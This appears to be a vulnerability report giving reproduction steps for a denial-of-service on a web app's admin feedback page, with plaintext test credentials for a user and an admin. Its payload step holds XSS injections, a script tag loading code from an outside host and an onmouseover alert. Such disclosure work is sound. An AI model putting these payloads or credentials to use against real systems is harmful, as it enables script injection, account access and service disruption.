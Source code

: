 ![DoS-for-admin-on-feedback-path](Evidence/DoS-for-admin-on-feedback-path.png)

##### Steps to Reproduce
To reproduce the vulnerability, one has to perform the following steps.

1. Log in to the application as a regular user using valid credentials. 
    - email: test1@silverskin.fi
    - password: Test123!

2. Once logged in , navigate to the `feedback` page. Submit feedback with normal content.

3. Use Burp Suite to intercept the HTTP request containing the feedback submission. 

4. In the intercepted request, modify the feedback content with the following payload.
    ```json
    {
        "message":<SCRIPT/XSS SRC='http://xss.rocks/xss.js'></SCRIPT>,
        "browserDataJSON":"{\"vendorSub\":\"\\\"\\\"\",\"productSub\":\"\\\"20030107\\\"\",\"vendor\":\"\\\"Google Inc.\\\"\",\"maxTouchPoints\":\"10\",\"scheduling\":\"{}\",\"userActivation\":\"{}\",\"doNotTrack\":\"null\",\"geolocation\":\"{}\",\"connection\":\"{}\",\"plugins\":\"{\\\"0\\\":{\\\"0\\\":{}},\\\"1\\\":{\\\"0\\\":{}}}\",\"mimeTypes\":\"{\\\"0\\\":{},\\\"1\\\":{}}\",\"pdfViewerEnabled\":\"true\",\"webkitTemporaryStorage\":\"{}\",\"webkitPersistentStorage\":\"{}\",\"windowControlsOverlay\":\"{}\",\"hardwareConcurrency\":\"8\",\"cookieEnabled\":\"true\",\"appCodeName\":\"\\\"Mozilla\\\"\",\"appName\":\"\\\"Netscape\\\"\",\"appVersion\":\"\\\"5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36\\\"\",\"platform\":\"\\\"Win32\\\"\",\"product\":\"\\\"Gecko\\\"\",\"userAgent\":\"\\\"Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36\\\"\",\"language\":\"\\\"en-US\\\"\",\"languages\":\"[\\\"en-US\\\"]\",\"onLine\":\"true\",\"webdriver\":\"false\",\"ink\":\"{}\",\"mediaCapabilities\":\"{}\",\"mediaSession\":\"{}\",\"permissions\":\"{<IMG SRC=# onmouseover=\"alert('xxs')\">}\"}"
    }
    ```

5. Forward the modified request ot the server.

6. The server responds with a 500 Internal Server Error, indicating a possible vulnerability due to improper handling of the payload.

7. Navigate back to the web app and log in with admin credentials:
    - email: test3@silverskin.fi
    - password: I4m4admin----

8. As an admin, navigate to the feedback page.

9. The admin interface throws an Unhandled Rejection (syntax error), caused by the modified feedback content, disrupting the feedback display functionality.
